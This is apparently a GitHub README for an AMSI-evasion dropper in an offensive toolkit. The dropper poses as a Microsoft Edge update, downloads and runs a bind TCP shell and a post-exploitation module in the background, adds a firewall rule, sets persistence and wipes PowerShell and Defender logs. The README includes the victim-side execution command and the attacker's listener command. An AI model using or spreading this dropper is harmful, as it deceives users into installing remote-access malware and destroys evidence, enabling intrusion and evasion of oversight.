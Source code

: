 ## :octocat: sherpard ( BindTCPshell ) - [@venom](https://github.com/r00t-3xp10it/venom) Amsi Evasion Agent nº9

<br />

Author: @d3adzo ( BindShell ) | @r00t-3xp10it<br />
Tested Under: Windows 10 ( 19042 ) x64 bits<br />
Required Dependencies: <b><i>Invoke-WebRequest</i></b> {native} , <b><i>python3</i></b> {attacker machine}<br />
Optional Dependencies: <b><i>netsh advfirewall</i></b> {native} , <b><i>ComputerDefaults.exe</i></b> {native}<br />
Sherpard GitHub: https://github.com/d3adzo/shepard<br />

<br />

## :octocat: shepard - C2 droppers Description
This PS dropper later compiled to binary.exe uses <b><i>Social Engineering</i></b> to trick target user into beliving he is installing a MicrosoftEdge update<br />while in background downloads the <b><i>[BindTCPshell](https://github.com/d3adzo/shepard)</i></b> and <b><i>[redpill](https://github.com/r00t-3xp10it/redpill)</i></b> post-exploitation auxiliary module before adds a <b><i>[firewall rule](https://user-images.githubusercontent.com/23490060/121229553-04678c80-c886-11eb-8cfd-2f82a40c4e2b.png)</i></b> to prevent client execution TCP connection warnings. Then executes the BindTCPshell in a background process. ( The Client beacons home every 30 seconds )

![secupdate](https://user-images.githubusercontent.com/23490060/121434739-aca84e80-c975-11eb-9110-ca78a69c6f74.png)<br /><br />

<br /><br />

## :octocat: Dropper|Client Execution Diagram
![diagram](https://user-images.githubusercontent.com/23490060/121988665-a8739b00-cd92-11eb-803b-e4480356bf2a.png)

<br />

**Executing Dropper (target):** The Social Engineering binary accepts the use of parameters and arguments. Example:
```powershell
.\MEdgeUpdaterService.exe -OutFile "$env:TMP\Payload.exe" -PostExploit True -Firewall True -Persiste True
```
![def](https://user-images.githubusercontent.com/23490060/121764725-f348a500-cb3d-11eb-9790-408395318934.png)
  - [x] <b><i>Remark:</i></b>  If executed without any <b><i>-parameters 'arguments'</i></b>, then the dropper will use internal default settings to run.<br />
  - [x] <b><i>Remark:</i></b> The dropper will <b><i>'download\execute the Client in background'</i></b> without any terminal console beeing spawned to target user.<br />
  - [x]  <b><i>Remark:</i></b> ALL droppers will delete logfiles from '<b><i>windows powershell</i></b>', '<b><i>Defender\Operational</i></b>', etc. if they are executed with admin privileges.

<br />

<b><i>Executing Server (attacker):</i></b> to recive the connection back
```cmd
python shepardsbind_recv.py <target IP>
```
![um](https://user-images.githubusercontent.com/23490060/121764609-29d1f000-cb3d-11eb-94b0-a3fb0dffe36c.png)
